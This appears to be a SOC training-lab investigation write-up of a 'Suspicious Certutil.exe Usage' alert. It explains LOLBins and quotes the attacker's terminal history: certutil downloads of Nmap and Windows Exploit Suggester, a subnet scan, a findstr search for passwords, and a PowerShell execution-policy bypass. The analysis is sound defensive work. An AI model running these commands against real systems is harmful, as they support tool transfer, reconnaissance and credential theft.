




# SOC163 – Suspicious Certutil.exe Usage

## 1. Alert Overview

| Field | Details |
|---|---|
| Event ID | 113 |
| Event Time | March 1, 2022 — 11:06:20 (UTC+3) |
| Rule Name | SOC163 – Suspicious Certutil.exe Usage |
| Alert Type | LOLBin |
| Difficulty | Medium |
| Hostname | `EricProd` |
| Source IP | `172.16.17.22` |
| Binary Path | `C:\\Windows\\System32\\certutil.exe` |
| EDR Action | Allowed |
| MITRE ATT&CK | T1595, T1059, T1105 |
| Suspicious Activity | Download |
| Playbook Verdict | True Positive |

## 2. Understanding LOLBins

**LOLBin** stands for *Living-off-the-Land Binary*. It refers to a legitimate executable already available on an operating system that can be abused to perform activities commonly associated with an attack.

Instead of bringing a separate tool onto a compromised machine, an attacker may misuse an existing Windows utility to download files, execute commands, or perform other operations. Because these binaries have legitimate administrative purposes, their presence alone does not necessarily indicate malicious activity.

The important distinction is between the binary itself and **how it is being used**.

For example, `certutil.exe` is a legitimate Windows command-line utility primarily associated with certificate and Certificate Services management. It can be used to inspect certificate information and perform certificate-related operations. However, its URL-cache functionality can also be used to retrieve files from external URLs.

This creates a dual-use situation:

- **Legitimate use:** An administrator uses `certutil.exe` for certificate management or certificate-related troubleshooting.
- **Potentially suspicious use:** A process uses `certutil.exe` to download an executable or script from an external source, especially when followed by unexpected scanning or script execution.

LOLBins are useful to understand in SOC investigations because detecting a trusted Windows binary is not enough on its own. The analyst needs to examine its command line, destination, parent process, downloaded file, and subsequent activity.

In this alert, `certutil.exe` was used to download Nmap. The Terminal History also showed a download of Windows Exploit Suggester, followed by internal network scanning and script execution. This wider context makes the activity suspicious.

Reference: [Microsoft – certutil documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) | [LOLBAS Project](https://lolbas-project.github.io/)

## 3. Alert Trigger – Certutil.exe Usage

The alert was triggered by the following command:

```cmd
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip
```

The command uses a built-in Windows utility to retrieve a file from an external URL and save it locally.

Nmap is a legitimate network discovery and security auditing tool. However, using `certutil.exe` to download a tool, followed by other discovery and scanning activity, provides relevant context for the investigation.

The download behavior is associated with MITRE ATT&CK **T1105 – Ingress Tool Transfer**, which covers transferring tools or other files into an environment.

## 4. Firewall and Download Evidence

The Firewall records contained connections from `172.16.17.22` to external destinations associated with two downloads.

| Timestamp | Destination IP | Port | Resource |
|---|---|---:|---|
| 2022-03-01 10:06:57 | `45.33.49.119` | 443 | `https://nmap.org/dist/nmap-7.92-setup.exe` |
| 2022-03-01 10:07:40 | `185.199.109.133` | 443 | `https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py` |

### 4.1 Nmap Download

The Terminal History contained the following command:

```cmd
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
```

Nmap is a legitimate network discovery and security auditing tool. It can identify hosts, discover open ports, and help determine which services are running.

The command shows an attempt to retrieve the Nmap installer using `certutil.exe`. The downloaded file was saved locally as `nmap.zip`.

### 4.2 Windows Exploit Suggester Download

The Terminal History also recorded:

```cmd
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
```

This command downloads `windows-exploit-suggester.py` from GitHub and saves it locally as `check.py`.

Windows Exploit Suggester is a security assessment tool designed to identify potential Windows vulnerabilities based on system and patch information.

The download itself does not prove malicious intent. However, downloading this tool alongside Nmap provides relevant context for the subsequent discovery and scanning activity.

**Screenshot – Log Management**



## 5. Endpoint Security – Terminal History Analysis

### 5.1 Internal Network Scanning

At 11:08, the Terminal History recorded:

```cmd
nmap -sV 192.168.0.0/24 -p 80
```

This command scans the `192.168.0.0/24` subnet for services listening on TCP port 80 and attempts to identify the service and version.

The command indicates an attempt to discover HTTP services across the specified subnet. It does not establish that any discovered service was vulnerable or successfully exploited.

### 5.2 Windows Exploit Suggester Execution

At 11:27, the Terminal History recorded:

```cmd
python3 check.py
```

This followed the command that downloaded `windows-exploit-suggester.py` and saved it as `check.py`.

The matching filename and sequence support the conclusion that the downloaded script was subsequently invoked. However, no script output was provided, so the available evidence does not establish whether any vulnerabilities were identified.

### 5.3 Password-Oriented Search

At 19:32, the Terminal History recorded:

```cmd
findstr /si pass \\*.txt | \\*.xml| \\*.ini
```

The command appears intended to search files for the string `pass`, potentially to locate password-related information.

The recorded syntax is ambiguous, so the available evidence does not confirm that the command executed successfully or that it retrieved any sensitive information.

### 5.4 PowerShell Execution

At 21:36, the Terminal History recorded:

```cmd
C:/powershell.exe -nop -exec bypass
```

The command uses PowerShell with options to start without loading a profile and to bypass the PowerShell execution policy. The supplied history does not include the subsequent PowerShell commands.

**Screenshot – Terminal History**



## 6. Network Action – Sequential Internal IP Addresses

The Network Action records contained a sequence of IP addresses ranging from `192.168.1.10` through `192.168.1.74`.

The supplied screenshots show representative portions of this sequence:

- `network-action1.png`: `192.168.1.10` through `192.168.1.22`.
- `network-action2.png`: `192.168.1.65` through `192.168.1.74`.

The intermediate IP addresses were also present in the available records.

The addresses were recorded in a largely sequential pattern over time. This pattern is consistent with repeated activity involving multiple IP addresses and is relevant when investigating possible network discovery or scanning.

**Screenshot – Network Action, first IP range**



**Screenshot – Network Action, later IP range**



## 7. MITRE ATT&CK Context

| Technique | Relevance |
|---|---|
| T1595 – Active Scanning | Relevant to the network discovery and scanning activity. |
| T1059 – Command and Scripting Interpreter | Relevant to command-line and script execution. |
| T1105 – Ingress Tool Transfer | Relevant to downloading tools using `certutil.exe`. |

References: [T1595 – Active Scanning](https://attack.mitre.org/techniques/T1595/), [T1059 – Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/), [T1105 – Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/).

## 8. Playbook Results

| Playbook Question | Answer |
|---|---|
| Is the current activity suspicious? | Yes |
| What is the suspicious activity? | Download |
| Who performed the activity? | User |
| Final Verdict | True Positive |

The playbook classifies the activity as suspicious because `certutil.exe` was used to download a file. The surrounding tool downloads, script execution, and scanning activity provide additional context for the True Positive verdict.
